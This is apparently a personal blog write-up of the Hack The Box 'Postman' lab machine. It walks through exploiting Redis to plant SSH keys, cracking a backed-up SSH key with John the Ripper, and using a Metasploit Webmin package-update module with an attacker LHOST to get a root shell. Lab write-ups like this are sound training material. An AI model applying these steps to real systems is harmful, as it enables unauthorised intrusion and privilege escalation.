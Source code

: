 ```yaml
---
layout: single
title: Postman Writeup
date: '2020-04-30 15:32:00'
tags:
- hack-the-box
sidebar:
  - title: "Difficulty: Easy"
    image: /images/posts/2020/2020-04-30-postman-writeup/postman_logo.png
    text: "https://app.hackthebox.eu/machines/215"
typora-copy-images-to: ../../images/posts/2020/${filename}/
---
```


A fairly straight forward easy box that nevertheless taught me something new…

## Enumeration

Starting with the usual Autorecon we turn up the following open ports:

- 22 - running SSH as expected
- 80 - running Apache and a pretty blank site
- 10,000 - running Webmin over SSL
- 6379 - running Redis

I had a quick look at the site on port 80, but this seemed to be a fairly empty site with no way of submitting information and nothing in the source, so I moved on. SSH wasn't doing anything crazy, so I looked at Webmin.

Webmin was more interesting, as looking at the Nikto output for port 10,000 we can see the server version is reported as `MiniServ/1.91`  
This relates to the version of Webmin and a search on [ExploitDB](https://www.exploit-db.com/) shows a few possible exploits for this version. One relates to a backdoor that was inserted that allows Remote Code Execution via the password change feature, but in this instance that feature was disabled and so this could not be exploited. Another vulnerability involves the package update command, but this required a login.

I moved on to look at Redis at this point. I connected to the server using `redis-cli -h 10.10.10.160 -p 6379` and using `KEYS *` determined that database was empty. I had a recollection that Redis could be exploited to upload SSH keys and found the following [article](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)which suggested it was indeed possible.

## Initial Exploitation

Having found a possible way in using Redis I did some more hunting and found a Python [script](https://github.com/Avinash-acid/Redis-Server-Exploit) that automated the steps. Saving this as `exploit.py` and running it as `./exploit.py 10.10.10.160 redis` (where redis is the user the Redis server is running as) got me a shell via SSH as the redis user. However, the user.txt file was in /home/Matt so we had some more work to do.

## Lateral movement

Have a quick look around the redis account and what I could see in the home directory of Matt didn't show anything too useful, and usual tricks such as checking sudo access with `sudo -l` didn't show anything special privileges. To speed things up I copied [LinEnum](https://github.com/rebootuser/LinEnum) across to the server and let it loose. This turned up an interesting .bak file, `/opt/id_rsa.bak` which sounds like an SSH private key file.

![Annotation-2019-12-02-113254](../../images/posts/2020/2020-04-30-postman-writeup/Annotation-2019-12-02-113254.png)

If we try and use this file using `ssh -i` to connect via SSH as the Matt account we get prompted for a password.

Next, I used `scp` to copy this file to my Kali box and then used `/usr/share/john/ssh2john.py id_rsa.matt > matt.key` to convert the file to format that John the Ripper can understand. I then kicked off John using the usual Rockyou wordlist which found a hit very quickly.

![Annotation-2019-12-02-113254_2](../../images/posts/2020/2020-04-30-postman-writeup/Annotation-2019-12-02-113254_2.png)

I then tried to login via SSH as Matt but got `Connection Closed` after I successfully authenticated. Using my redis SSH session I looked at the `/etc/ssh/sshd_config` and found that Matt had specifically been blocked from using SSH.

I then tried `su Matt` while logged in as redis user which worked and I could then read the `user.txt` file.

![Annotation-2019-12-02-113254_3](../../images/posts/2020/2020-04-30-postman-writeup/Annotation-2019-12-02-113254_3.png)

## Getting root

Given we now have the username and password of Matt I tried logging into Webmin using these and found they worked. Matt only seemed to have access to do Package Updates, but earlier we found a exploit for a vulnerabily in this area. The exploit was in the form of a Metasploit module, and while I usually recode these to do the exploit manually, I decided to be lazy and just use Metasploit.

After starting msfconsole I used:
```bash
    use exploit/linux/http/webmin_packageup_rce
    set RHOST 10.10.10.160
    set LHOST 10.10.14.5
    set USERNAME Matt
    set PASSWORD computer2008
    set SSL true
    exploit
```
This then gives us a root shell

![Annotation-2019-12-02-113254_4](../../images/posts/2020/2020-04-30-postman-writeup/Annotation-2019-12-02-113254_4.png)